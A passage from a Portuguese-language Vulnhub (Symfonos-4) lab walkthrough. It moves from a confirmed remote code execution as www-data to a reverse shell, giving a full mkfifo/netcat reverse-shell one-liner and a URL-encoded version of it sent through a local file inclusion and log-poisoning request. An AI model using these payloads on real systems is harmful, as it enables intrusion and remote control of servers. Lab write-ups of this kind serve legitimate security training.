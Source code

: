 > Ta dificil de compreender a saida do comando, porem analisando o log antes do comando e depois do comando vimos que apareceu o **www-data**. Ou seja, conseguimos tirar a prova real que **temos um RCE**


## RBSCHEAT - Comandos para shell reverso

* Clonamos o repositorio do rbscheat no github para a nossa maquina e instalamos (make install)

```bash
rbscheat -i 192.168.150.110:443 -l nc
```

![](/assets/img/Vulnhub/Symfonos-4/rbscheat.png)

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.150.110 443 >/tmp/f


## Burp Suite - Encodando para URL

* Para enviar o comando via URL sem ter problemas com a sintaxe, vamos encodar o comando para URL. 

![](/assets/img/Vulnhub/Symfonos-4/burp-suite.png)


## Shell Reverso - "www-data"

* Para conseguir o shell reverso e so deixar a porta escutando na kali e enviar o comando encodado via URL

```
http://192.168.150.109/sea.php?file=.../../../../../../../var/log/auth&cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%39%32%2e%31%36%38%2e%31%35%30%2e%31%31%30%20%34%34%33%20%3e%2f%74%6d%70%2f%66
```
